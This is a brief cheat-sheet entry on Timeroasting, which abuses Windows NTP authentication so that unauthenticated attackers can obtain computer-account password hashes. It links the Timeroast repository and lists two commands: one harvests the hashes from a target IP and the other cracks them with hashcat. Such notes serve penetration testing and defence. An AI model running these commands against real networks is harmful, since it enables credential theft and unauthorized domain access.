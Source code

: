 # Timeroasting

### Timeroasting takes advantage of Windows' NTP authentication mechanism, allowing unauthenticated attackers to effectively request a password hash of any computer account by sending an NTP request with that account's RID

## Github repo: https://github.com/SecuraBV/Timeroast

### Steps:

    sudo ./timeroast.py 10.0.0.42 | tee ntp-hashes.txt

    hashcat -m 31300 ntp-hashes.txt
